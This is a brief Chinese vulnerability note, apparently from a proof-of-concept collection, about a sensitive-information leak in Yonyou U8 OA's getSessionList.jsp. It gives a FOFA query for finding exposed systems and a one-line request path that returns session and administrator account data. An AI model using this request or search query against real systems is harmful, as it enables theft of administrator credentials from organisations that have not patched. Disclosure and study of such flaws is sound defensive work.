 # 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

## 漏洞描述

用友 U8 OA getSessionList.jsp文件，通过漏洞攻击者可以获取数据库中管理员的账户信息

## 漏洞影响

```
用友 U8 OA
```

## FOFA

```
"用友U8-OA"
```

## 漏洞复现

登录页面

![image-20220520141805589](./images/202205201418731.png)

验证POC

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![image-20220520141832426](./images/202205201418464.png)
